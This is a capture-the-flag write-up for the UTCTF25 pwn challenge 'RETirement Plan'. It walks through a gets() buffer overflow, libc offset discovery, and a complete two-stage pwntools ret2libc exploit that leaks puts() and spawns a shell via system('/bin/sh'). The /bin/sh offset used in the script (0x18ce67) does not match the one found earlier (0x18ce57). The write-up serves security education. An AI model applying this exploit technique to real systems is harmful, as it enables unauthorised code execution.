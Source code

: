 # WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:

![Binary](decompiled.png)  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.
2. **Call main again** using main's addr.
3. **Calculate system and "/bin/sh" addresses** using known offsets.  
4. **Exploit buffer overflow** to call `system("/bin/sh")`.

---

## Finding Main

So now we need to get the main() address    
If we use cylic to crash the program and check it using gdb we can see that the main address is 0x40070d - 247 = **0x400616**
![main](main.png)

---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to prevent crashes (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

# === Stage 1: Leak puts() address ===
payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret  
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'').strip()
puts_addr = u64(output.ljust(8, b' '))

# Calculate addresses
libc_base = puts_addr - 0x6f6a0  
system_addr = libc_base + 0x453a0  
bin_sh = libc_base + 0x18ce67  

# === Stage 2: Exploit buffer overflow to get shell ===
payload2 = b'C' * 48        # Padding  
payload2 += p64(add)        # Overwrite return address  
payload2 += 16 * b'b'       # Extra padding  
payload2 += p64(0x4004a9)   # ret (stack alignment)  
payload2 += p64(0x400793)   # pop rdi; ret  
payload2 += p64(bin_sh)     # Address of "/bin/sh"  
payload2 += p64(system_addr)  # Call system("/bin/sh")  

p.sendline(payload2)

# Get interactive shell
p.interactive()
```

---

## Exploit Execution  

1. **First Payload:**  
   - Overwrites the return address.  
   - Calls `puts()` to leak its address from **GOT**.  
   - Returns to `main()` for second-stage execution.  

2. **Second Payload:**  
   - Calculates **libc base address**.  
   - Computes `system()` and `/bin/sh` addresses.  
   - Calls `system("/bin/sh")` to spawn a shell.  

### Successfully Getting the Flag  
![flag](flag.png)  

---

## Summary  

- **Vulnerability:** Buffer Overflow  
- **Goal:** Call `system("/bin/sh")`  
- **Method:**  
  1. Leak **puts()** address from GOT.  
  2. Compute **libc base address**.  
  3. Find **system()** and `"/bin/sh"` offsets.  
  4. Construct **ROP chain** to call `system("/bin/sh")`.  
  5. **Exploit buffer overflow** to execute the attack.  

---

## Final Thoughts  

This challenge demonstrates:  
- Finding **libc offsets** in ASLR-enabled binaries.  
- Using **ROP gadgets** to manipulate program flow.  
- Exploiting **buffer overflows** to achieve **remote code execution**.
